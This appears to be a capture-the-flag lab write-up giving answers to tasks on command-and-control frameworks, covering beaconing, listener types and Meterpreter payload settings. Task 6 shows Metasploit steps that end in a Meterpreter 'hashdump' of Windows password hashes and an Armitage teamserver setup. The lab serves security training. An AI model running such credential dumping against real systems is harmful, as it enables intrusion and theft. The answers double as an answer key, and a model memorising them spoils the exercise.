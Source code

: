 **Task 2**

**What is the term for the software on a compromised computer that communicates back to a command and control (C2) server?**

```Agent```


**What is the beaconing option that introduces a random delay value to the sleep timer?**

```Jitter```


**What is the term for the first portion of a Staged payload?**

```Dropper```

**What is the name of the communication method that can potentially allow access to a restricted network segment that communicates via TCP ports 139 and 445?**

```SMB Beacon```

**Task 5**

**Which listener should you choose if you have a device that cannot easily access the internet?**
```DNS```

**Which listener should you choose if you're accessing a restricted network segment?**

```SMB```


**Which listener should you choose if you are dealing with a Firewall that does protocol inspection?**

```HTTPS```

**Task 6**

**What is the Administrator's NTLM hash?**
```
msfconsole -q
set LHOST <network-interface>
set RHOST <victim_ip>
run


meterpreter> hashdump

```
**What flag can be found after gaining Administrative access to the PC?**
```
Follow the steps on Task 4

git clone https://gitlab.com/kalilinux/packages/armitage.git && cd armitage
bash package
systemctl start postgresql && systemctl status postgresql.sh
export MSF_DATABASE_CONFIG=/root/.msf4/database.yml
cd /opt/armitage/release/unix && ./teamserver YourIP P@ssw0rd123
cd /opt/armitage/release/unix && ./armitage (in other terminal tab)
```

![Insert the correct info according to your Host IP Address](image.png)


![alt text](image-1.png)


``` Then, follow the steps on Task 4 adapting to your needs ```

![alt text](image-2.png)

![Your Machine IP Address](image-3.png)

![alt text](image-4.png)

![alt text](image-5.png)

![alt text](image-6.png)

![alt text](image-7.png)

``` After you gain access, the flag is at C:\Users\Administrator\Desktop\root.txt ```

**What flag can be found after gaining access to Ted's user account?**

```After you gain access, the flag is at C:\Users\Ted\Desktop\user.txt```

**What is Ted's NTLM Hash?**

```

msfconsole -q
set LHOST <network-interface>
set RHOST <victim_ip>
run


meterpreter> hashdump
```

**Task 7**

**What setting name that allows you to modify the User Agent field in a Meterpreter payload?**
```HttpUserAgent```

**What setting name that allows you to modify the Host header in a Meterpreter payload?**

```HttpHostHeader```



